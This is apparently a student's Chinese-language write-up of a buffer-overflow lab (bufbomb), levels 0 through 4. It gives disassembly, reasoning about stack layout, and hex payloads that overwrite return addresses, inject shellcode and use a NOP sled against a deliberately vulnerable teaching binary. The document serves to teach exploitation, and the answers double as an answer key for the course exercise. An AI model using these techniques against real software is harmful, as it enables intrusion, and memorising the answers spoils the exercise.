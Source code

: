 和上次lab差不多，也是利用缓冲区溢出注入代码实现跳转。

##### level0

函数调用过程是test -> getbuf -> test(smoke、fizz...)，也就是getbuf读入执行完后要设法让程序跳转到smoke等函数。

先看重要的函数getbuf，它先存入了一个ebp，然后开辟了0x38即56B的栈空间，其中数组eax大小为0x28即40B。

```assembly
080491f4 <getbuf>:
 80491f4:	55                   	push   %ebp
 80491f5:	89 e5                	mov    %esp,%ebp
 80491f7:	83 ec 38             	sub    $0x38,%esp
 80491fa:	8d 45 d8             	lea    -0x28(%ebp),%eax
 80491fd:	89 04 24             	mov    %eax,(%esp)
 8049200:	e8 f5 fa ff ff       	call   8048cfa <Gets>
 8049205:	b8 01 00 00 00       	mov    $0x1,%eax
 804920a:	c9                   	leave  
 804920b:	c3                   	ret    
```

为了覆盖返回地址结合上一个lab很容易想到注入40B数据，再加上smoke的地址。但和之前不同的是它这里的字符串是以字符数组的方式存储到的，所以它有一个存栈底指针的寄存器ebp占了4B，因此我们要注入44B空数据，再加上smoke的返回地址：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 18 8c 04 08
```

![1](img/111.png)



##### level1

要读入cookie，但是没有说从rdi读入，我们把cookie直接放到getbuf的栈里即可。于是想到读入44B空数据，再读入fizz的地址，然后是参数cookie，但测试出错。

因为进入一个函数还需要把其返回地址压栈，顺序是压入返回地址、压入参数，所以在fizz地址和cookie之间还有4B的数据（随便填）用于返回地址占位。

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 42 8c 04 08
00 00 00 00 91 c9 09 7e
```

![2](img/222.png)



##### level2

这题有一个全局变量global_value，我们需要把它的值改为cookie的值，首先找到它。它在bang函数出现，bang函数里面有进行了两个数据的比较，用gdb确定它们的值，发现0x804d100处是全局变量。

```assembly
 8048ca3:	a1 00 d1 04 08       	mov    0x804d100,%eax
 8048ca8:	3b 05 08 d1 04 08    	cmp    0x804d108,%eax
```

![333](img/333.png)

参考上次lab注入自己代码的方法，编写汇编修改global的值，然后跳转到bang处，反汇编后得到我们代码的地址

```assembly
   0:	c7 04 25 00 d1 04 08 	movl   $0x7e09c991,0x804d100
   7:	91 c9 09 7e 
   b:	68 9d 8c 04 08       	pushq  $0x8048c9d
  10:	c3                   	retq   
```

为了跳转到我们的代码地址即栈顶处，我们需要知道getbuf的esp寄存器值，由汇编知这个值是从eax来的，其值为0x55682f48

![444](img/444.png)

于是有答案：

```
c7 04 25 00 d1 04 08 91 
c9 09 7e 68 9d 8c 04 08 
c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 48 2f 68 55
```

![555](img/555.png)



##### level3

和上题差不多，不过要把cookie设置为getbuf的返回值，同时还要恢复ebp的值，在getbuf打断点查看ebp为0x55682fa0，用这个值覆盖掉原来的ebp即40-44字节。于是有答案：

```
b8 91 c9 09 7e 68 be 8d
04 08 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
a0 2f 68 55 48 2f 68 55
```

![666](img/666.png)



##### level4

```
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90
b8 91 c9 09 7e 
8d 6c 24 28
68 3a 8e 04 08 
c3
98 2d 68 55
```

![777](img/777.png)